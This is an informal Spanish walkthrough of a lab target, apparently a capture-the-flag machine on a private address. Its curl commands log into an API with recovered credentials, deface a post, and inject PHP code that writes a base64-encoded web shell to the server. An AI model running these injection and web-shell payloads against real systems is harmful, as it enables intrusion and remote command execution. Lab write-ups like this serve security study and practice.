 Nos hemos bajado los repositorios y estamos husmeando entre los directorios y vamos descubriendo rutas y de qué manera podemos consultarla

```bash
 curl -s -X GET http://192.168.1.134:5000/ls2o4g/v1.0/auth/check -b '_csrf=au_cMW4sJvUbFlzVgqp9eRBY9wY6MTc0NTg4MzExMzExNDQxNjI5Ng;i_like_gitea=5eb789f271ca02f9;lang=en-US' 
                                                                                                                    
curl -s -X GET http://192.168.1.134:5000/ls2o4g/v1.0/ping -b '_csrf=au_cMW4sJvUbFlzVgqp9eRBY9wY6MTc0NTg4MzExMzExNDQxNjI5Ng;i_like_gitea=5eb789f271ca02f9;lang=en-US'    
{"message":"pong"} 
```

- En el fichero **auth/auth.ctrl.go**, descubrimos los campos username y password en el login
```bash
curl -s -X POST "http://192.168.1.134:5000/ls2o4g/v1.0/auth/login"  -H "Content-Type: application/json" -d '{"username": "achilles", "password": "h2sBr9gryBunKdF9"}' | jq
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDY0OTA0MjUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.DmiO6mJGxwo-PweKzBMS4GzwFztJe4gL3sI46KMZjDU",                           
  "user": {
    "display_name": "achilles",
    "id": 1,
    "username": "achilles"
  }
}

```
- Modificamos el server principal **192.168.1.134:80** desde la **API**
``` bash
 curl -s -X PATCH "http://192.168.1.134:5000/ls2o4g/v1.0/posts/1"  -H "Content-Type: application/json" -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDY0OTA0MjUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.DmiO6mJGxwo-PweKzBMS4GzwFztJe4gL3sI46KMZjDU' -d '{"text": "Tu maimai está en mi casa"}' | jq
```
- Subimos archivo 
```bash
curl -s -X PATCH "http://192.168.1.134:5000/ls2o4g/v1.0/posts/1" \
  -H "Content-Type: application/json" \
  -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDY0OTA0MjUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.DmiO6mJGxwo-PweKzBMS4GzwFztJe4gL3sI46KMZjDU" \
  -d "{\"text\": \"file_put_contents('pruebilla.txt', 'Prueba primo')\"}" | jq
```

- Consultamos http://192.168.1.134/posts/pruebilla.txt
- Subimos archivos de estas maneras
1. 
```bash
curl -s -X PATCH "http://192.168.1.134:5000/ls2o4g/v1.0/posts/1" \
  -H "Content-Type: application/json" \
  -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDY0OTA0MjUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.DmiO6mJGxwo-PweKzBMS4GzwFztJe4gL3sI46KMZjDU" \
  -d "{\"text\": \"file_put_contents('archivazo.php', base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4='))\"}" | jq
```
2. si no chusca le metemos un **$** ahí en el **-d**
```bash
curl -s -X PATCH "http://192.168.1.134:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NDY0OTA0MjUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.DmiO6mJGxwo-PweKzBMS4GzwFztJe4gL3sI46KMZjDU' -d $'{"text": "file_put_contents(\'sexo.php\', base64_decode(\'PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=\'))\"}' | jq
```
